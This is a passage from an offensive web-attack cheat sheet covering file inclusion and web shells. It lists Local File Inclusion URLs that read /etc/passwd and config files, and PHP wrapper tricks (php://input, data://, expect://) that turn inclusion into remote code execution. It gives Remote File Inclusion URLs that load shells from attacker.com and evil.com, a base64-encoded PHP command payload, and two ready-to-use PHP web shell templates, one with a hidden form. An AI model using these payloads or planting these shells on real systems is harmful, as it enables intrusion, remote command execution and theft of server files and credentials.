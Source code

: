 ## 4. FILE INCLUSION TECHNIQUES

### 4.1 Local File Inclusion (LFI)

#### Basic LFI
```
http://target.com/page.php?file=../../../../etc/passwd
http://target.com/index.php?page=/etc/passwd
http://target.com/view.php?file=../../../config.php
```

#### LFI to RCE
```
# With PHP wrapper
http://target.com/page.php?file=php://filter/convert.base64-encode/resource=index.php

# With input wrapper
http://target.com/page.php?file=php://input&cmd=id

# With data wrapper
http://target.com/page.php?file=data://text/plain,<?php system('id');?>

# With expect wrapper (if enabled)
http://target.com/page.php?file=expect://id
```

### 4.2 Remote File Inclusion (RFI)

#### Basic RFI
```
http://target.com/page.php?file=http://attacker.com/shell.txt
http://target.com/index.php?page=http://evil.com/cmd.php
```

#### RFI with Data Protocol
```
http://target.com/page.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=
```

## 5. WEB SHELL TEMPLATES

### 5.1 Basic PHP Shell
```php
<?php system($_GET['cmd']); ?>
```

### 5.2 Advanced PHP Shell
```php
<?php
if(isset($_REQUEST['cmd'])) {
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>

<!-- Hidden form -->
<form method="post">
<input type="text" name="cmd" style="display:none" id="cmd">
<input type="submit" style="display:none">
</form>
```
